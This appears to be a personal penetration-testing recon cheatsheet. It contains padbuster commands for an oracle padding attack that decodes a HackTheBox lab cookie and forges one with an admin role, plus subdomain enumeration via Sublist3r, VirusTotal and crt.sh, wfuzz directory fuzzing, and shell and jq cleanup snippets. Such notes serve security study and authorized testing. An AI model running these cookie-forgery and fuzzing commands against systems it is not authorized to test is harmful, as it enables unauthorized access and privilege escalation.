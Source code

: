 ```yaml
---
title: "Recon Cheatsheet"
date: 2019-11-10T23:33:00+05:30
description: "Recon Cheatsheet"
tags: [infosec, hacking, ethical hacking, sublister, nmap]
---
```



# Oracle Padding Attack

### Decoding Existing Cookie
```bash
padbuster http://docker.hackthebox.eu:39547/profile.php SEvBsOSa55XO1%2FouXeqtEtWrgb05cphkJgi6QsTyY8%2F%2FeveSpSQoHFNFTCFP%2F4BcG2rDUTYAnOo%3D 8 --cookie "iknowmag1k=SEvBsOSa55XO1%2FouXeqtEtWrgb05cphkJgi6QsTyY8%2F%2FeveSpSQoHFNFTCFP%2F4BcG2rDUTYAnOo%3D;PHPSESSID=43cs7f94iqae3o0dp48l5seii3"
```

### Encoding Modified Cookie
```bash
padbuster http://docker.hackthebox.eu:39547/profile.php SEvBsOSa55XO1%2FouXeqtEtWrgb05cphkJgi6QsTyY8%2F%2FeveSpSQoHFNFTCFP%2F4BcG2rDUTYAnOo%3D 8 --cookie "iknowmag1k=SEvBsOSa55XO1%2FouXeqtEtWrgb05cphkJgi6QsTyY8%2F%2FeveSpSQoHFNFTCFP%2F4BcG2rDUTYAnOo%3D;PHPSESSID=43cs7f94iqae3o0dp48l5seii3" -plaintext "{\"user\":\"XYZ@example.com\",\"role\":\"admin\"}"
```


## Finding Subdomains

### Using Sublist3r
```bash
sublister -d example.com -o example
# Taget Domain: example.com 
# Output file: example
```

### Using Virus Total API
```bash
curl -s 'https://www.virustotal.com/ui/domains/example.com/subdomains?limit=40' | jq .data[].id
```

### Using cert.sh

```bash
curl "https://crt.sh?q=%.example.com&output=json" -sS | jq .name_value | uniq | tee output
```

```bash
DOMAIN=example.com
curl -s "https://crt.sh/?q=%.$DOMAIN&output=json" | grep -oE \"[a-zA-Z0-9.]+$DOMAIN\" | sed s/\"//g | sort -u
```

## Fuzzing

**NOTE:** Edit ~/.wfuzz/wfuzz.ini to overwrite default user agent.


```bash
user-agent = Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
```

```bash
wfuzz -c --filter "c=200" -t 50 -w ~/Projects/GitHub/dictionaries/starter.txt https://www.target-domain.com/FUZZ

# --filter "c=200"      Filter non 200 result
# -c                    Color output
# -t                    Threads
# -w                    Wordlist
# -H                    Header
# -X HEAD               HEAD Request
```

## Javascript retrieve all a links from a page using console.
```js
var x = document.links;
for(var i = 0; i < x.length; i++){
  console.log(x[i].href);
}

/*
function copyToClipboard(text){
    var dummy = document.createElement("input");
    document.body.appendChild(dummy);
    dummy.setAttribute('value', x);
    dummy.select();
    document.execCommand("copy");
    document.body.removeChild(dummy);
}
copyToClipboard('Hello, World!')
*/
```

## Cleaning result in bash

Manual copy for now



```bash
cat haha | sort | uniq > url 
cat url | cut -d'/' -f3 | sort | uniq > Processed_URLs.txt
```

### Retrieve name colums from cities json array of objects
```json
[
    {
        "id": "1",
        "name": "Mumbai",
        "state": "Maharashtra"
    },
    {
        "id": "2",
        "name": "Delhi",
        "state": "Delhi"
    },
]
```


```jq
cat cities.json |  jq '.[] | .name' > Cities.txt
```